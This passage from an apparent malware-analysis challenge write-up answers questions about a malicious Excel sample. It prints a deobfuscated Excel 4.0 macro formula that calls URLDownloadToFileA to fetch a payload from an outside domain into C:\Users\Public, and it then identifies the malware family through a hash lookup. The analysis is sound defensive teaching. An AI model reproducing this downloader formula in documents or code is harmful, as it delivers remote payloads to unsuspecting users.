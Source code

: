 ##

> Q11. Sample2: What URL does the malware download the payload from?

* Again the answer can be found in the output of the `xmldeobfuscator`.

```
--snip--;
CELL:J7        , FullEvaluation      , FORMULA("=CALL(""urlmon"",""URLDownloadToFileA"",""JJCCJJ"",0,""https://ethelenecrace.xyz/fbb3"",""c:\Users\Public\bmjn5ef.html"",0,0)",K8)
--snip--;
```

##

> Q12. Sample2: What is the filename that the payload is saved as?

* The answer lies in the previous snippet.

##

> Q13. Sample2: How is the payload executed? For example, mshta.exe

* We can find the answer in in the same snippet as Q10 as the payload is first opened and then executed.

##

> Q14. Sample2: What was the malware family?

* Use `md5sum` to obtain the file hash.

```
$ md5sum sample2-b5d469a07709b5ca6fee934b1e5e8e38.bin 
b5d469a07709b5ca6fee934b1e5e8e38  sample2-b5d469a07709b5ca6fee934b1e5e8e38.bin
```

* Let's look up this hash in VirusTotal.

<figure><img src="../.gitbook/assets/xls 14.png" alt=""><figcaption></figcaption></figure>

* The answer is the one listed by TrendMicro.
